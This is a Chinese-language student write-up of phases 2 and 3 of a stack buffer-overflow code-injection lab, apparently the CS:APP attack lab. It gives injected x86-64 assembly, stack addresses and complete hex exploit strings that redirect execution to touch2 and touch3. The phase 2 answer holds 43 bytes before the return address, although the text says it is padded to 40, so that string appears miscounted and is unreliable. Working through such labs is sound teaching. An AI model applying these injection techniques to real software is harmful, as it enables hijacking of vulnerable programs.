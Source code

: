 ## 第二题

要求跳转到 `touch2` 函数，在第一题基础上加入了传值的要求；
方法就是注入代码，将返回地址改为注入代码的首地址，然后给参数的寄存器`%rdi`赋值，接着再次调用 `touch2` 时就有参数值了；    
注入的代码：

```
movq $0x59b997fa,%rdi
pushq $0x004017ec
retq
```

第一行传值，传的值 `cookie` 为 `0x59b997fa` ，第二行将调用 `touch2` 的地址压入栈，这样第三行返回时，就可以调用 `touch2` 了，注意题目规定不能用 `jmp` 的；   
将注入代码保存为 `code.s` 文件，参考文档，使用 `gcc -c code.s` 编译，再用 `objdump -d code.o > code.d` 反汇编就能得到十六进制表示的机器代码了，将这段代码通过 `getbuf` 放入栈中（首地址在栈顶，可以通过 `gdb` 打个断点，打印 `%rsp` 的值就是栈顶了），再和第一题一样填充到40字节，结尾加上注入代码的地址就是答案了：

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
51 51 51
51 51 51 51 51
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
78 dc 61 55 00 00 00 00
```

## 第三题

第三题也是注入代码，将 `cookie` 的字符串的地址传入函数，注入代码和第二题类似，但是注意因为第三题中，后续操作会将 buf 栈中的 40 个字节覆盖了，所以不能将字符串存储中这里，改为存储在调用函数前的栈中，通过打断点得到其栈顶地址是 `0x5561dca0` 。所以应该把字符串存入的地址设为 `0x5561dca8` ，这个地址在输入的 16 进制中就紧跟着跳转的地址。   
注入的代码（已经反编译了）：

```
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

再和上题类似填充至 40 字节，附上跳转地址。再将 `cookie` 转化为 16 进制的字符串附到跳转地址后面，根据 `ASCII` 码，这里的 `cookie` 值 `0x59b997fa` 就是 `35 39 62 39 39 37 66 61 00` 这里末尾加 `00` ，我不知道是什么意思，不过看很多人都加了，我也跟风。。经验证，加不加对结果无影响。因而最终答案是：

```
48 c7 c7 a8 dc 61 55 
68 fa 18 40 00 
c3 
30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```

## Part2
